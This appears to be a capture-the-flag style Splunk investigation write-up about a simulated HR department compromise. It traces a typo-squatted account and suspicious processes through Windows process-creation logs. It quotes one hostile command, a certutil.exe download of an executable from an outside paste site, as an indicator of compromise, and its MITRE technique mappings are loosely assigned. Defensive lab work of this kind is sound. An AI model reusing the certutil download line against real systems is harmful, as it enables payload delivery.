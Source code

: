**Splunk Investigation: HR Department Compromise (Event ID 4688\)**

---

### **Summary**

An IDS flagged suspicious process execution within the HR department. Using Windows Event ID 4688 logs ingested into Splunk, we conducted an investigation to identify signs of malicious activity and potential compromise.

---

### **Key Findings**

* **Impersonation Account:** Detected a typo-squatted account, Amel1a, spoofing legitimate marketing user Amelia.  
* **Suspicious User Activity:** Chris.fort (HR) executed processes such as taskkill.exe and clip.exe, not typical for end-users.  
* **LOLBin Abuse:** Haroon used certutil.exe to download a file from controlc.com, indicating Living-off-the-Land Binary (LOLBin) abuse.  
* **MITRE ATT\&CK Mapping:** Attacker used credential impersonation (T1078.004), LOLBins (T1218.010), and C2 (T1105)

---

### **Investigation Steps**

#### **1\. Baselining Logs**

* **Query:**  
  index=win\_eventlogs | stats count  
  → Returned **13,959 logs** (March 2022 only).  
* **Scoped HR User Activity:**  
  index=win\_eventlogs Username IN ("chris.fort", "haroon", "diana")  
  → Focussed on users from the HR department.

#### **2\. Identifying the Imposter Account**

* **Query:**  
  index=\* | stats count by Username  
  → Identified Amel1a, a spoofed version of Amelia. Typo-squatting confirmed.

**Efficiency Note:** stats count is preferred over table | dedup for better performance in large datasets.

#### **3\. Triaging HR User Activity**

##### **Chris.fort:**

* **Query:**  
  Username="Chris.fort" | table ProcessName, CommandLine | dedup ProcessName  
* Ran suspicious binaries:  
  * taskkill.exe, clip.exe (scripting and automation tools)   
  * backgroundTaskHost.exe (also used by Diana, but Chris had no productivity apps)  
* Lacked normal user behavior (e.g., browser, Office apps).  
* *Attempted Detection of Scheduled Task Binaries:*  
  * ProcessName IN ("schtasks.exe", "svchost.exe", "taskeng.exe")  
* No strong indicators here, pivoted back to broader process review.

##### **Diana:**

* While both Chris and Diana executed backgroundTaskHost.exe, only Diana ran typical productivity apps like chrome.exe and notepad.exe.  
* No red flags.

##### **Haroon:**

* Executed:  
  certutil.exe \-urlcache \-split \-f https://controlc.com/e4d11035 benign.exe  
  * Indicates malicious file download via **certutil.exe** (LOLBAS technique).  
  * While Certutil is a legitimate Windows tool, its use here \- along with haroon’s lack of other admin level activity \- strongly suggests its use is malicious.

#### **4\. Confirming Malicious Activity**

* File saved: benign.exe  
* Downloaded from: https://controlc.com/e4d11035  
* Flag found inside file: THM{KJ&\*H^B0}

**IOC Summary:** The download from controlc.com and presence of encoded payloads are consistent with command-and-control behavior observed during post-exploitation phases. 

---

### **Lessons Learned**

#### **SOC Workflow**

* **Alerting Strategy:** Flag unusual process execution, especially known LOLBins like certutil.exe, particularly when run by non-admin users.  
* **Baseline Behavior:** Department-level activity baselining can reduce false positives.

#### **Tool Efficiency**

* stats count is more performant than table | dedup for retrieving unique values.  
* dedup remains useful in small-scope investigations, such as filtering usernames.

---

### **MITRE ATT\&CK Mappings**

  | Tactic               | Technique  | Description                                |
|:---------------------|:-----------|:-------------------------------------------|
| Execution            | T1059.003  | certutil.exe used to download a payload    |
| Persistence          | T1078.004  | Spoofed account Amel1a for access           |
| Defense Evasion      | T1218.010  | LOLBin abuse with certutil.exe              |
| Command and Control  | T1105       | Connection to external C2 (controlc[.]com)  |


---

This investigation highlights a multi-phase attack starting with credential abuse, followed by LOLBin execution and external communication. Each phase was observable via effective Splunk queries and contextual log analysis.

